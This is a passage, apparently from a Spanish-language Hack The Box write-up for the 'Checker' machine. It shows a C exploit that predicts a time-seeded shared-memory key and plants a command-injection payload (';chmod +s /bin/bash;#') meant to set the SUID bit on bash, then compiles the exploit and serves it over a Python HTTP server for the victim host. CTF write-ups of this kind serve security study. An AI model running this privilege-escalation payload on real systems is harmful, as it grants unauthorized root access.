 ```c
#include <stdio.h>
#include <sys/shm.h>
#include <sys/types.h>
#include <sys/ipc.h>
#include <time.h>
#include <stdlib.h>

#define MEMSIZE 0x400
#define MEMPERM 0x3B6
int main(void) {
    int shm_id;
    key_t mem_key;
    char* shm_ptr;
    int random_number;
    const char *payload = "Leaked hash detected at Sun Feb 23 16:18:11 2025 > ';chmod +s /bin/bash;#";

    time_t cTime = time(NULL);
    srand((unsigned int)cTime);

    random_number = rand();
    mem_key = (random_number % 0xfffff);

    shm_id = shmget(mem_key, MEMSIZE, IPC_CREAT | MEMPERM);
    if (shm_id == -1) {
    printf("[!] shmget error \n");
    exit(1);
    }

    shm_ptr = (char *)shmat(shm_id, NULL, 0);
    if (shm_ptr == (char *)-1) {
    printf("[!] shmat error \n");
    exit(1);
    }

    snprintf(shm_ptr, MEMSIZE, "%s", payload);
    if (shmdt(shm_ptr) == -1) {
    printf("[!] shmdt error\n");
    exit(1);
    }
    return 0;
}
```

Compilo el exploit y lo comparto para descargarlo en la maquina víctima.

```terminal
/home/kali/Documents/htb/machines/checker:-$ gcc exploit.c -o exploit

/home/kali/Documents/htb/machines/checker:-$ python3 -m http.server
```
